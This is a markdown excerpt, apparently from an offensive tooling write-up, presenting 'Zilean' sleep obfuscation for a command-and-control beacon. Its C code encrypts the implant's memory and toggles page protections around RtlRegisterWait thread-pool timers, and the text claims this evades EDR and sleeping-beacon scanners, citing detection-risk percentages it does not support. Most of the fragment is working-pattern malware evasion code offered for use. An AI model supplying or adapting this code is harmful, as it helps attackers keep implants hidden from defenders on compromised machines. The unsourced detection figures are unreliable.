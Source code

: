 **Critical Innovation**: **Eliminates ROP chains entirely** - uses native Windows thread pool infrastructure instead of ROP gadgets and NtContinue.

**Advantages**:
- **No ROP chain artifacts** (major EDR detection vector removed)
- Call stacks appear as legitimate `RtlRegisterWait` execution
- Uses native Windows synchronization primitives
- Evades Hunt-Sleeping-Beacons and similar tools
- Detection risk: 5-10% (vs 30-35% for ROP methods)

**Implementation Pattern**:
```c
// Zilean sleep obfuscation
VOID NTAPI ZileanCallback(PVOID param, BOOLEAN timerFired) {
    PZILEAN_CONTEXT ctx = (PZILEAN_CONTEXT)param;

    // Decrypt memory
    if (ctx->config.bUseAES) {
        AES256_Decrypt(ctx->config.pBeaconBase, ctx->config.szBeaconSize,
                       ctx->config.bEncryptionKey, iv);
    } else {
        RC4(ctx->config.pBeaconBase, ctx->config.szBeaconSize,
            ctx->config.bEncryptionKey, 32);
    }

    // Restore RX protection
    VirtualProtect(ctx->config.pBeaconBase, ctx->config.szBeaconSize,
                   PAGE_EXECUTE_READ, &oldProtect);

    ctx->bSleeping = FALSE;
}

BOOL Zilean_Sleep(PZILEAN_CONTEXT ctx, DWORD sleepMs) {
    // Change to RW and encrypt
    VirtualProtect(ctx->config.pBeaconBase, ctx->config.szBeaconSize,
                   PAGE_READWRITE, &ctx->dwOriginalProtect);

    if (ctx->config.bUseAES) {
        AES256_Encrypt(ctx->config.pBeaconBase, ctx->config.szBeaconSize,
                       ctx->config.bEncryptionKey, iv);
    } else {
        RC4(ctx->config.pBeaconBase, ctx->config.szBeaconSize,
            ctx->config.bEncryptionKey, 32);
    }

    // Set waitable timer
    LARGE_INTEGER dueTime;
    dueTime.QuadPart = -(LONGLONG)sleepMs * 10000LL;
    SetWaitableTimer(ctx->hTimer, &dueTime, 0, NULL, NULL, FALSE);

    // Register wait using RtlRegisterWait (creates thread pool wait)
    fnRtlRegisterWait pRtlRegisterWait = GetProcAddress(ntdll, "RtlRegisterWait");
    pRtlRegisterWait(&ctx->hWaitObject, ctx->hTimer,
                     ZileanCallback, ctx, sleepMs, WT_EXECUTEONLYONCE);

    ctx->bSleeping = TRUE;

    // Wait for completion
    while (ctx->bSleeping) {
        Sleep(10);
    }

    return TRUE;
}
```